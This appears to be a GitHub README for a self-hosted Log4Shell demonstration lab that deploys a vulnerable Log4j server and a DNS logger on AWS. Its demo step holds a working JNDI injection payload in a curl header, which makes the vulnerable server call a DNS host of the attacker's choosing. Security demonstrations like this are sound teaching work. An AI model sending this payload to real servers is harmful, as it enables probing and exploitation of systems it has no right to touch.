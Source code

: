 # Log4Shell Demo

Demonstration of [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability.

## Deploy

Stack name is **Log4ShellStack**. It will be deployed to the default account and region configured in `~/.aws/config`. Refer to CDK [installation guide](https://docs.aws.amazon.com/cdk/v2/guide/getting_started.html#getting_started_prerequisites).

Before deploying this stack, create/upload an SSH keypair or specify your existing one. Inbound connection to deployed instances is limited to your public IP, I usually use [dnsleaktest.com](https://www.dnsleaktest.com/) to see my IP.

```
# Create venv
python -m venv .venv
source .venv/bin/activate

# Install CDK libraries
pip install -r requirements.txt -q

# Generate CloudFormation template
mkdir -p cdk.out
cdk synth -c key_name=ssh-keypair-name -c ip=your-public-ip > cdk.out/template.yml

# Review cdk.out/template.yml

# Deploy
cdk deploy -c key_name=ssh-keypair-name -c ip=your-public-ip -v
```

## Demo

1. Note down the public IP of Log4ShellLog4JInstance and private IP of Log4ShellDNSInstance.
2. Remote into Log4ShellDNSInstance using Session Manager or SSH. In that instance, run `journalctl -xe -u unbound -f`
3. In your local machine, `curl -L http://log4j-public-ip -H 'X-Api-Version: ${jndi:dns://dns-private-ip/evil-request}'`
  - The response will be `Hello, world!`.
4. Back in Log4ShellDNSInstance, it should show this log message,
  - `# Jan 1 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: log4j-private-ip evil-request. A IN`

This demonstrate the ability to instruct a vulnerable server to make an arbitrary DNS request.

## Credit

[christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
